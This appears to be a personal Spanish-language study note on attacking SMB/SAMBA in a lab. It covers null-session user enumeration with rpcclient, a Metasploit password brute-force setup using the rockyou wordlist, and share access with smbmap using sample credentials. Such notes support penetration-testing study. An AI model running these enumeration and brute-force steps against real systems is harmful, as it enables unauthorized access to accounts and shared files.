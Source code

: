 
SAMBA sirve para que los sistemas operativos que no sean Windows puedan comunicarse con sistemas que si usen SMB

Para la enumeración de usuarios usaremos la herramienta
### [[RPCCLIENT]]

Para empezar deberemos usar el siguiente comando
`rpcclient -U "" -N 192.168.1.31`

Una vez en la consola de [[RPCCLIENT]] usaremos las siguientes ordenes para empezar la enumeración
- Primero debemos de ejecutar
`srvinfo` Nos muestra información del SO

- Segundo ejecutar
`querydispinfo` Nos muestra Usuarios

- Tercero a ejecutar
`enumdomusers` Nos muestra Usuarios

Ahora ya con[[METASPLOIT]] podremos hacer el ataque de fuerza bruta
Usaremos el modulo
Vemos las opciones de configuración con `show options`
Configuramos los parámetros que son necesarios
`set <Opciones> <Parametro>` 
- RPORT `445`
- RHOST `IPVictima`
- SMBUser `nombre usuario si lo conocemos`
- SMBPass `contraseña si la conocemos`
- PASS_FILE `/usr/share/wordlists/rockyou.txt`  Diccionario en caso de no saber contraseñas
- VERBOSE `false`

Una vez tengamos todo configurado usaremos el comando `run` para ejecutar el exploit
Ahora ya podemos seguir con la explotación usando [[00. Apuntes/01. Herramientas/SMBMAP|SMBMAP]] o [[00. Apuntes/01. Herramientas/SMBCLIENT|SMBCLIENT]]
Con [[00. Apuntes/01. Herramientas/SMBMAP|SMBMAP]] seria así
` smbmap -H 192.168.1.31 -u 'ken' -p 'kenken'`

Para acceder a un recurso compartido usaríamos el parámetro `-r` 
` smbmap -H 192.168.1.31 -u 'ken' -p 'kenken' -r ken`


